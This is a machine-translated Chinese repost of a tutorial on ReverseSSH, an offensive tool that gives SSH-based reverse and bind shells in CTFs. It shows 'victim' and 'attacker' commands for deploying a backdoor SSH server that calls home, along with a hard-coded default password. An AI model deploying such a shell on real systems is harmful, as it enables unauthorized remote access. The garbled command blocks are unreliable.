

# ReverseSSH:静态链接的 SSH 服务器，具有针对 CTF 等的反向 Shell 功能

> 原文：<https://kalilinuxtutorials.com/reversessh/>

ReverseSSH 是一个静态链接的 SSH 服务器，具有反向连接功能，用于简单而强大的远程访问。在黑盒子挑战，CTFs 或类似的比赛中最有用。

在 OSCP 考试准备期间被广泛使用。

**特性**

用 *netcat* 捕捉一个反向外壳是很酷的，当然，但是谁没有因为肌肉记忆而不小心用键盘中断关闭一个反向外壳呢？除了脆弱之外，这种外壳还经常缺少一些便利功能，比如完全交互式访问、标签补全或历史记录。

相反，你可以简单地将**轻量级 ssh 服务器** ( < 1.5MB) `**reverse-ssh**`部署到目标上，并使用额外的商品，如**文件传输**和**端口转发**！

ReverseSSH 试图在最初立足于目标和完全本地权限提升之间架起一座桥梁。其主要优势如下:

*   **完全交互式外壳访问**(查看下面的 windows 注意事项)
*   **通过 sftp 传输文件**
*   **本地/远程/动态端口转发**
*   **可用作绑定和反向外壳**
*   支持 **Unix** 和 **Windows** 操作系统

**Windows 警告**

windows 上的完全交互式 powershell 依赖于 Windows 伪控制台概念，因此至少需要`**Win10 Build 17763**`。在早期版本中，你仍然可以得到一个交互式的反向外壳，它不能处理虚拟终端代码，比如箭头键或键盘中断。在这种情况下，您必须添加`**cmd**`命令，即`**ssh <OPTIONS> <IP> cmd**`。

您可以通过将  OpenSSH for windows 中的`**ssh-shellhost.exe**`放在与`**reverse-ssh**`相同的目录中，然后使用标志`**-s ssh-shellhost.exe**`，来实现对旧版本 Windows 的完全交互式 shell 访问。这将通过`**ssh-shellhost.exe**`传输所有流量，它模仿 pty 并转换所有虚拟终端代码，以便 windows 可以理解。

**要求**

简单地执行提供的二进制文件只依赖于 golang 系统的要求。

简而言之:

*   **Linux** :内核版本 2.6.23 及更高版本
*   **Windows**:Windows Server 2008 R2 及更高版本或 Windows 7 及更高版本

编译还需要以下内容:

*   golang 版本 1.15
*   可选的`upx`用于压缩(例如`**apt install upx-ucl**`

**用法**

一旦`**reverse-ssh**`开始运行，您就可以使用任何用户名和默认密码`**letmeinbrudipls**`、ssh 密钥或您在编译期间指定的任何东西进行连接。毕竟，它只是一个 ssh 服务器:

**#全交互 shell 访问
ssh-P
#简单的命令执行
ssh-P whoami
#成熟的文件传输
sftp-P
#在端口 9050 上作为 SOCKS 代理的动态端口转发
ssh -p -D 9050**

**简单绑定外壳场景**

**#受害者
受害者$。/reverse-ssh
#攻击者(默认密码:letmeinbrudipls)
攻击者$ssh -p 31337**

**简单的反向外壳场景**

**#On 攻击者(准备捕捉传入的请求；
#可以省略，如果你已经有一个 ssh 守护进程在运行，例如 OpenSSH)
攻击者$。/reverse-ssh -l :
#On 受害者
受害者$。/reverse-ssh-p
#或者在 ssh 守护进程使用用户/pass 身份验证在端口 22 侦听的情况下
victim$。/reverse-ssh @
#On 攻击者(默认密码:letmeinbrudipls)
攻击者$ssh-p 8888 127 . 0 . 0 . 1
#或使用下面的 ssh 配置
攻击者$ ssh 目标**

最后，它是普通的 ssh，因此您可以通过监听端口 22 的 openssh 守护程序捕获来自受害者机器的远程端口转发调用。只需在前面加上`**<USER>@**`并在要求时提供密码。目前打电话回家只有密码，因为我还不想在那里烤一个私人钥匙…

为了更加方便，将以下内容添加到您的`**~/.ssh/config**`中，将**的 ssh 私钥**复制到`**~/.ssh/**`中，然后简单地调用`**ssh target**`或`**sftp target**`:

**主机目标
主机名 127.0.0.1
端口 8888
标识文件~/。ssh/id _ reverse-ssh
identities only yes
stricthostkey checking no
usernownhostsfile/dev/null**

**完全使用**

**reverseSSH v1.1.0 版权所有(C)2021 Ferdinor[ferdinor@mailbox.org](mailto:ferdinor@mailbox.org)
用法:reverse-ssh【选项】[@]
示例:
Bind:
Reverse-ssh
Reverse-ssh-v-l:4444
Reverse:
Reverse-ssh 192 . 168 . 0 . 1
Reverse-ssh kali @ 192 . 168 . 0 . 1【T11(默认:/bin/bash)
对于 windows，这只能用于提供“ssh-shellshost.exe”的路径，以
增强 Windows10 之前的 shell(例如‘-s ssh-shellhost . exe’如果在同一个目录中)
-l，仅绑定场景:在此地址侦听:port(默认::31337)
-p，仅反向场景:ssh 端口在家中(默认:22)
-b，仅反向场景:可以在前面加上
@以在拨打家庭电话时作为不同于“反向”的用户进行身份验证。
凭证:
接受来自具有以下任一项的任何用户的所有传入连接:
*密码" letmeinbrudipls "
* PubKey " ssh-ed 25519 aaac 3 nza 1 lzdi 1 NTE 5 aaaaaiklbjwr+ueq 0 gojy 4 qwr 2 suw CNC/y 9 ev 9 rdy 3 plo 7 bk/Brudi "**

**构建指令**

确保在匹配版本中安装 golang 等上述要求，并正确设置。之后，可以用`**make**`进行编译，这将在`**bin**`中创建静态二进制文件。使用`**make compressed**`用 upx 打包二进制文件以进一步减小它们的大小。

**make
#或者对另外创建的二进制文件用 upx
打包进行压缩**

在编译时，您还可以指定不同的默认外壳(`**RS_SHELL**`)、个性化密码(`**RS_PASS**`)或授权密钥(`**RS_PUB**`):

**ssh-keygen-t ed 25519-f id _ reverse-ssh
RS _ SHELL = "/bin/sh " RS _ PASS = " secret " RS _ PUB = " $(cat id _ reverse-ssh . PUB)" make compressed**

**构建不同的操作系统或架构**

默认情况下，`**reverse-ssh**`是为您当前的操作系统和架构编译的，也是为 x86 和 x64 中的 linux 和 windows 编译的。要针对其他架构或其他操作系统进行编译，您可以提供与您的目标相匹配的环境变量，例如针对 linux/arm64:

**go arch = arm 64 GOOS = Linux make compressed**

格式为`**OS/arch**`的可用目标列表可通过`**go tool dist list**`获得

[**Download**](https://github.com/Fahrj/reverse-ssh)